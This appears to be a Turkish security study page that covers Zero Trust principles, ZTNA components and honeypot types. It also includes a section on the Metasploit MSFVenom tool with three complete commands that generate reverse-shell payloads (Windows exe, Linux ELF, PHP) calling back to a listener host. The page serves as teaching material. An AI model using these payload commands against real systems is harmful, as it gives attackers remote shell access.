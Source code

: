 ### Zero Trust Prensipleri
1. **Verify Explicitly**: Her erişim isteğini doğrula
2. **Least Privilege Access**: Minimum gerekli yetki ver
3. **Assume Breach**: Sistem zaten ele geçirilmiş gibi davran

### ZTNA Bileşenleri
- **Identity Provider**: Kimlik yönetimi
- **Multi-Factor Authentication**: Çok faktörlü doğrulama
- **Device Trust**: Cihaz güvenilirliği
- **Continuous Monitoring**: Sürekli izleme
- **Microsegmentation**: Ağ segmentasyonu

---

## Güvenlik Test Araçları

### MSFVenom

**Tanım**: Metasploit Framework'ün payload üreteci aracıdır.

#### Temel Kullanım
```bash
# Windows reverse shell payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe

# Linux payload
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o payload.elf

# Web payload (PHP)
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.php
```

#### Payload Formatları
- **exe**: Windows executable
- **elf**: Linux executable  
- **war**: Java web application
- **apk**: Android application
- **raw**: Ham shellcode

### Honeypot

**Tanım**: Saldırganları çekmek ve aktivitelerini analiz etmek için kurulan tuzak sistemlerdir.

#### Honeypot Türleri
1. **Low-interaction**: Basit servis simülasyonu
2. **High-interaction**: Tam işletim sistemi simülasyonu
3. **Honeyd**: Virtual honeypot
4. **Dionaea**: Malware yakalama odaklı

#### Honeypot Faydaları
- **Attack Pattern Analysis**: Saldırı kalıplarını öğrenme
- **Early Warning**: Erken uyarı sistemi
- **Threat Intelligence**: Tehdit istihbaratı toplama
- **Forensic Evidence**: Adli tıp kanıtları

---